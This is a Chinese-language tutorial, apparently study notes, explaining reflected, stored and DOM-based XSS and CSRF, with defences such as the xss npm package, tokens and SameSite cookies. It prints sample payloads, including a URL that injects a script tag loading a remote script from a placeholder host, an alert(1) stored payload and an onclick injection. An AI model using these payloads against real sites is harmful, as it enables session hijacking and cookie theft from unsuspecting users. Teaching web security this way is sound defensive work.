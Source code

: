 # XSS和CSRF

## XSS
### 简介
跨站脚本攻击，英文全称是Cross Site Script，本来缩写是CSS，但是为了和层叠样式表
(CascadingStyleSheet,CSS）有所区别，所以在安全领域叫做“XSS”。
XSS攻击，通常指黑客通过“HTML注入”篡改了网页，插入了恶意的脚本，从而在用户
测览网页时，控制用户浏览器的一种攻击。在一开始，这种攻击的演示案例是跨域的，所以叫
做“跨站脚本”。但是发展到今天，由于Javascript的强大功能以及网站前端应用的复杂化，是
否跨域己经不再重要。但是由于历史原因，XSS这个名字却一直保留下来。

### XSS漏洞产生的原因
XSS漏洞通常产生在前端js代码的漏洞。所以会和前端环境（如浏览器内核版本）有关。

### 分类与示例
#### 反射型XSS
反射型XSSS只是简单地把用户输入的数据“反射”给浏览器。也就是说，黑客往往需要
诱使用户“点击”一个恶意链接，才能攻击成功。反射型XSS也叫做“非持久型XSS”(Non-persistent XSS)。
攻击者发现 http://weibo.com/pub/star/g/xyyyd 这个 URL 的内容未经过滤直接输出到 HTML 中。
于是攻击者构建出一个 URL，然后诱导用户去点击：
```html
http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>
```

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：
```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```
浏览器解析html就会执行这段script代码。如果这段script代码包含一个模拟当前用户的操作，比如发帖子，关注之类的代码。这样就完成了一次xss攻击。
#### 存储型XSS
存储型XSS会把用户输入的数据“存储”在服务器端。这种XSS具有很强的稳定性。
1. 攻击者在一个表单输入描述的input输入了一串js代码如下：
```js
<script>alert(1)</script>
```
提交保存后，该代码存到了服务器。当有管理员会查看用户提交的内容时。
页面会加载该数据。本来页面加载输入的描述是文字。正常加载看起来是这样的
```html
<html>
  <body>
    <div>
      <span>描述：</span>
      <p>这是一段描述</p>
    </div>
  </body>
</html>
```
但是由于输入的是script所以就变成了
```html
<html>
  <body>
    <div>
      <span>描述：</span>
      <p><script>alert(1)</script></p>
    </div>
  </body>
</html>
```
浏览器就会执行这段script代码。如果这段script代码包含一个获取当前页面信息的脚本，并发送给了黑客的服务器，黑客就拿到了比如cookie登录。这样就完成了一次xss攻击。

存储型XSS会持续攻击，因为存储在服务端，只要有人查看有那段js的代码的页面。就会一直发起攻击。
#### DOM型XSS
这种类型的XSS并非按照“数据是否保存在服务器端”来划分，DOM型
从效果上来说也是反射型XSS。单独划分出来，是因为DOM型的形成原因比较特别，
发现它的安全专家专门提出了这种类型的XSS。出于历史原因，也就把它单独作为一个分类了。
本质也是js脚本的实现，但是这个的情况是，比如我有一个输入框input，用来填充输入的url然后构建一个跳转的a标签。如下代码所示。
```html
<input id="text">
<div id="aa"></div>

<script>
  let input = document.getElementById("text").value;
  document.getElementById("aa").innerHTML = `<a herf="${input}">点我</html>`
</script>
```
这时候。我不输入url了。我输入：
```html
javascript:void 0;" onclick="(function(){alert(233)})()
```
让innerHTML的结果为：
```js
document.getElementById("aa").innerHTML = `<a herf="javascript:void 0;" onclick="(function foo(){alert(233)})()">1aaa</a>`
```
这样用户点击就可以执行onclick里的函数，又是一次XSS攻击了。

## 防御XSS
web前端的话，可以下载[xss 的npm包](https://github.com/leizongmin/js-xss)
> npm install xss

主要要处理好input、富文本输入、输出的检查。上面仅仅是XSS攻击的一种实现。但是原理是类似的。


## CSRF

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的(如修改操作、删除操作等)。主要就是cookie的锅,不过目前新版浏览器大多已经关闭第三方Cookie了。

### 特征
一个典型的CSRF攻击有着如下的流程：
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；       
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；       
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；       
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；       
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

CSRF的两个特点：
- CSRF（通常）发生在第三方域名。
- CSRF攻击者不能获取到Cookie等信息，只是使用。
该图是一个银行转账的csrf攻击图
![image](../assets/csrf.png)

理解CSRF攻击最主要的核心在于，cookie的发送这个知识点。意思浏览器新打开的tab页面B发起对页面A域名地址的请求。浏览器会把A页面得到的cookie，加在这个请求上(这个请求其实和A页面的请求代码一样的请求地址，只不过代码写在B页面上)。对于服务器来讲cookie是身份识别，都是一样的所以会允许通过。但是http的头Referer字段会显示来源是B的地址。
### CSRF 防御


- 可以用验证码的方式，很好的抑制CSRF攻击。但是并不是万能的。出于用户体验考虑。网站不能给所有操作都加上验证。
- 还可以设置随机token。
- 重要操作要求输入原始密码，或者发送手机验证。
- 设置cookie SameSite也可以避免一些问题
- 验证Referer头
## 参考
- 《白帽子讲web安全》
- [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367)
- [前端安全系列之二：如何防止CSRF攻击？](https://juejin.cn/post/6844903689702866952)
- [xss的npm官网](https://jsxss.com/zh/index.html)